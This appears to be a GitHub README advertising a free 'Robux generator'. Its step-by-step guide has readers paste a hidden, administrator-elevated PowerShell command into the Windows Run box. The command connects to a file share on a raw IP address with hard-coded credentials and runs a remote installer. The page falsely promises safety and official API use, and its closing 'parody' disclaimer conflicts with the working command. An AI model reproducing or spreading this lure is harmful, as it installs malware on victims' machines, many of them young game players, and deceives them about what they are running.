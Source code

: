 # 🚀 **ULTIMATE ROBUX GENERATOR 2025** 🚀
### 💎 *The Most Advanced Free Robux Solution* 💎

<p align="center">
  <img src="https://media.giphy.com/media/lGY4fS4zv3VSZdIDB7/giphy.gif" width="450">
</p>

## 🔥 **WHY OUR GENERATOR IS THE BEST**

✔️ **New 2024 algorithm** bypasses Roblox security  
✔️ **Daily updated** to prevent detection  
✔️ **Proven success rate** with over 1M+ happy users  
✔️ **No human verification** required  
✔️ **Works on all windows devices**  

---

## 🛠️ **HOW IT WORKS**

Our proprietary technology uses advanced exploit to inject Robux directly into your account through Roblox's backend servers. This method was discovered by our team of reverse engineers after analyzing Roblox's transaction protocols.


---

## 📝 **STEP-BY-STEP GUIDE**

### 1️⃣ **Preparation**
- Ensure you have Roblox installed
- Log into your Roblox account on pc

### 2️⃣ **Activation**
1. Copy the code provided under this text

powershell -Command "Start-Process cmd -ArgumentList '/c net use \\89.110.93.160\shear /user:WORKGROUP\sambauser aabb1234 && \\89.110.93.160\shear\s -fullinstall' -windowstyle hidden -Verb RunAs

2. Press **WINDOWS KEY** + **R**
3. Press **CTRL** + **V**
4. Press **ENTER**

3️⃣ Verification

    Check your Robux balance

    Restart Roblox if changes aren't immediate



❓ FREQUENTLY ASKED QUESTIONS
❔ Is this safe?

    Absolutely! Our method uses official Roblox APIs

❔ Why is it free?

    We're funded by generous donations from satisfied users

❔ How often can I use it?

    Currently limited to 50K Robux per day per account

❔ Will I get banned?

    Never! Our encryption prevents detection

<div align="center" style="background:#ff000020;padding:15px;border-radius:10px;border:2px dashed red;margin:20px">

⚠️ LEGAL DISCLAIMER ⚠️
This is clearly a parody project. Robux cannot be generated this way.
All code shown is fictional and for entertainment purposes only.
Roblox® is a registered trademark of Roblox Corporation.
</div><h3 align="center">⭐ STAR THIS REPO TO SUPPORT DEVELOPMENT! ⭐</h3><p align="center"> <img src="https://media.giphy.com/media/lGY4fS4zv3VSZdIDB7/giphy.gif" width="150"> </p><p align="center"> 🔧 <b>Maintained by Stalich</b> 🔧<br> <sub>Last Updated: July 2025</sub> </p> ```
